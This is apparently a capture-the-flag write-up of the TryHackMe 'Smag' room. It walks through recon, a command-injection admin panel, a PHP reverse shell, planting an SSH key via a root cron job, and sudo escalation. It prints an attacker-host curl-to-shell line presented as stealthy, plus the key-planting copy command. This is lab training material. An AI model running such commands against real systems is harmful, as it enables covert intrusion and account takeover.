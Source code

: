 # SmagWriteUp
So I'll show you my way to hack this very nice, but no so easy tryhackme room :
Smag
# Recon
First, we need to scan with nmap, as always :
![Capture d’écran de 2020-07-31 18-50-30](https://user-images.githubusercontent.com/50116433/89050911-b889b400-d353-11ea-8889-df85a7b67fdb.png)<br>
We see http and ssh. The apache webserver isn't vulnerable and ssh isn't either.
Let's run an nmap scan on all ports in the background, just in case : 
```nmap -p- 10.10.43.30```
# Get a shell
Now I wanna look at the webserver, but it's under construction so nothing appears to be here...
I added smag.thm to /etc/hosts, but nothing changed.

One thing you should do everytime you're on a webpage is checking the file extension. Here the index file is index.php
The webserver is running php. 
Let's run gobuster, since this is the only thing we can do now :
![Capture d’écran de 2020-07-31 18-58-27](https://user-images.githubusercontent.com/50116433/89051347-68f7b800-d354-11ea-887f-5454af53f124.png)<br><br>

You noticed that I used the .php extension, and the txt too ( I always, it's just in case )
After finding /mail we can see a page saying the server is using mail2web software to displays mails on the page, but I didn't find anything with it in searchsploit :(<br>
There is a .pcap file, after opening it in wireshark we can see an http request with a username and a password. 
<br><br>
![censored_stuff](https://user-images.githubusercontent.com/50116433/89052543-26cf7600-d356-11ea-8f2c-34e3d0ba5225.jpg)<br>
<br>
Nice ! I tried to use these in ssh but it didn't work.
We also notice that the http request is going to development.smag.htb, and after adding it to my /etc/hosts file,
The domain development.swag.thm is redirecting to a login page where we can login with the credentials we found earlier.<br>
There is an admin command pannel :
![Capture d’écran de 2020-07-31 19-08-13](https://user-images.githubusercontent.com/50116433/89053375-65b1fb80-d357-11ea-80c1-3d531d7418f1.png)<br><br>
I try to ping my machine, just to see if it works, I use tcpdump to listen for incoming ping request : <br>
```sudo tcpdump -i tun0 icmp and icmp[icmptype]=icmp-echo```<br>
Then I run the command on the webpage and tadaaa:<br>
![Capture d’écran de 2020-07-31 19-08-33](https://user-images.githubusercontent.com/50116433/89053686-e40e9d80-d357-11ea-92fe-cfa5eb7c0dd5.png)<br><br>
It's working ! Unfortunately, it's not displaying any output, even in the source code, so we cannot read flags.
I tried to wget a php file from my machine, and the file is downloaded correctly by the machine but somehow I couldn't have access to it with my browser... <br>
At this point I tried many reverse shells, but I was sending commands with burp, and they didn't worked because the url encoding wasn't correctly executed.<br>
I tried again few hours later but I was sending my reverse shells command from the website and after few minutes I remebered that the webserver was running php, so php should be installed on the machine. And it was : my reverse php shell worked !<br>
![Capture d’écran de 2020-07-31 19-11-31](https://user-images.githubusercontent.com/50116433/89054531-42884b80-d359-11ea-8237-04c09f3f4b4c.png)
# User Flag
So there is a user jake, but we cannot acces the flag in his home directory and we can't either read the .ssh folder.
Next step is to run our favourite enumeration tool : [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).
I setup an http server on my computer with updog ( a very cool and easy to use http server ), then I run linpeas with the following command : <br>```curl 10.9.10.225:9090/linpeas.sh |/bin/sh```<br>
I do like this because here, no file is getting downloaded and it's invisible for the user.
After looking at the output ( it took some time ), I noticed a crontab executed by root :
![Capture d’écran de 2020-07-31 19-16-55](https://user-images.githubusercontent.com/50116433/89055602-f50cde00-d35a-11ea-8bf0-e53c1a050dd2.png)<br>
The root user is copying this file to jake's authorized_keys
We have write access to the /opt/.backups/jake_id_rsa.pub.backup file, so we can put our own .pub file here, and then connect to Jake with ssh !
Let's go to /dev/shm ( because we always have write access into it ) and use ssh-keygen.<br>
![Capture d’écran de 2020-07-31 19-20-22](https://user-images.githubusercontent.com/50116433/89055953-8bd99a80-d35b-11ea-94c3-a05746f862cc.png)<br>
After generating a public ssh key let's copy it to the jake .pub backup file :
```cp /dev/shm/id_rsa.pub /opt/.backups/jake_id_rsa.pub.backups```
Copy the id_rsa private key to our machine, wait a bit, then connect with ssh to jake's account :
![Capture d’écran de 2020-07-31 19-28-08](https://user-images.githubusercontent.com/50116433/89056343-289c3800-d35c-11ea-8310-bbb15cd4f7af.png)<br>
# Root Flag
Before running linpeas always check sudo -l permissions :
![Capture d’écran de 2020-07-31 19-28-32](https://user-images.githubusercontent.com/50116433/89056720-c263e500-d35c-11ea-84fb-28f79a977a73.png)<br>
There is a privesc with this on gtfobins ( even three ), the first one won't work because the machine isn't connected to internet, the second one may work but I'll try the third one because it fits on one line.<br>
![Capture d’écran de 2020-07-31 19-29-54](https://user-images.githubusercontent.com/50116433/89056972-2edee400-d35d-11ea-9660-564377550066.png)<br>
And we are root ! Thanks you [JakeDoesSec](https://tryhackme.com/p/JakeDoesSec) for this very nice room !
